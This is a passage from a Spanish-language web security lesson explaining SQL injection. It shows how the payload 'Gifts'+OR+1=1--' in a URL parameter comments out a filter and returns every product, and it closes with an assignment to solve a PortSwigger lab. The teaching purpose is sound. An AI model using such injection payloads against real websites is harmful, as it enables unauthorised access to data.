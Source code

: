 Los dos guiones (--) se consideran un comentario, lo que acaba de ocurrir es que la base de datos va a ignorar `AND released = 1`  provocando que se puedan obtener todos los productos de la Categoría Gifts sin tener en cuenta la bandera `released`

Lo que convierte la consulta anterior en esta:

```sql
SELECT * FROM produts 
WHERE category = 'Gifts'
```

Si la página atacada funciona de esta forma, es muy sencillo hacer una consulta que devuelva todos los productos:

**Petición** 

```
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```

Se convierte en 

```sql
SELECT * FROM produts 
WHERE category = 'Gifts'
OR 1=1--' AND released = 1
```

Como 1=1 es siempre cierto, se obtienen TODOS los productos de la página

> **Realizad todos los laboratorios de esta actividad en un único documento.**
>
> Para cada uno de ellos debéis incluir una captura de pantalla como que lo habéis logrado. Por ejemplo, el siguiente muestra que lo he resuelto
>
> ![Laboratorio 1](image-20210409203241519.png)
>
> **LAB 1**
>
> [Vulnerabilidad de inyección SQL en la cláusula WHERE que permite la recuperación de datos ocultos](https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data)
